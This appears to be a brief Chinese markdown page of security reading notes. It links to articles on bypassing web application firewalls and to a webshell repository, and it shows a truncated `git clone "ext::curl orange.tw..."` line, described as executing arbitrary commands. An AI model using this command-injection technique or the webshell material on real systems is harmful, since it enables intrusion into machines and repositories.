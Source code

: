 ### 绕过waf

* [freebuf_印象笔记版](https://app.yinxiang.com/shard/s8/nl/16127008/b56ad611-189e-4fc0-837e-6ee20f29d4f8/)、[freebuf版](http://www.freebuf.com/articles/web/54686.html?winzoom=1)
* [webshell](https://github.com/l3m0n/Bypass_Disable_functions_Shell?files=1)
* ![Alt text](/img/read_daily/1482801164374.png)



### git执行任意命令

```
$ git clone "ext::curl orange.tw..."
可執行任意指令
```

## 编程

* [markdown_css](http://mrcoles.com/demo/markdown-css/)
